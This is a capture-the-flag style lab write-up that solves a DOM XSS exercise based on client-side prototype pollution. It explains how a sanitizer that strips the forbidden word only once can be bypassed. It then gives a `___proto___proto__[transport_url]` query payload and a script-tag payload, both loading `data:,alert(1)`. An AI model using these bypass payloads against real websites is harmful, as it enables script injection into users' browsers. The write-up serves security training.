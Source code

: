 This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`.

# Solution

The function that sanitizes user input is flawed because it only checks if the forbidden word is only one time in the provided string, allowing to bypass the process altogether:

![[bypass-sanitization.png]]

![[PP.png]]

2. Find a gadget

![[gadget.png]]

3. The gadget uses the `src` sink, craft a payload:

```
<script src=data:,alert(1);></script>
```


```
/?___proto___proto__[transport_url]=data:,alert(1)
```

![[Advanced Topics/Prototype pollution/Client-Side Prototype Pollution/labs/Client-side prototype pollution via flawed sanitization/images/exploited.png]]
